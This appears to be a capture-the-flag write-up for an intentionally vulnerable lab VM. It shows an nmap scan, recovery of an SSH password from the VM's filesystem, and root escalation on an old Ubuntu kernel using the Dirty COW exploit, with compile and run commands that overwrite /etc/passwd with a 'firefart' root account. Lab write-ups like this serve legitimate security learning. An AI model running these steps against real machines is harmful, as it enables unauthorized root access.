 # Writeup 1

First we need to find the IP address of Virtual machine.

For that we use `nmap` package to process the next search:

``` bash
$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 17:56 MSK
Nmap scan report for 192.168.56.102  <== THIS is the IP address we are looking for
Host is up (0.015s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 255 IP addresses (1 host up) scanned in 37.77 seconds
```
Next step we browse the ISO file System.

Among other files ISO contains this `/casper/filesystem.squashfs` which is actually a whole compressed file system.
In order to decompress it we run the command:

``` bash
$ unsquashfs <destination_path> <your_path_to_ISO/casper/filesystem.squashfs>
```

After extracting the file system we see these two files in `/home/lmezard/`:

``` bash
$ ls /home/lmezard
fun  README
```

fun is an archive, then:

``` bash
$ tar xvf fun ; ls
ft_fun  fun  README
```

ft_fun directory conrtains many many files, written in C with comments containing its serial number.

For combining them together we use our `script.py` and creating new file `script.c`

``` bash
$ gcc script.c 
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```
``` bash
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Now we are ready to connect via SSH and use the hash above as a password to `laurie` user.

``` bash
$ ssh laurie@192.168.56.102
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

For the next step we need to use system vulnerabilities.
The Linux kernel we are work with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to explit it we search this [website](www.exploit-db.com) and find the [next variant](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```
Run the script with your new password
``` bash
$ ./dirty <my-new-password>
```
Log in to the root user named firefart
``` bash
$ su firefart
```

Enter your new password password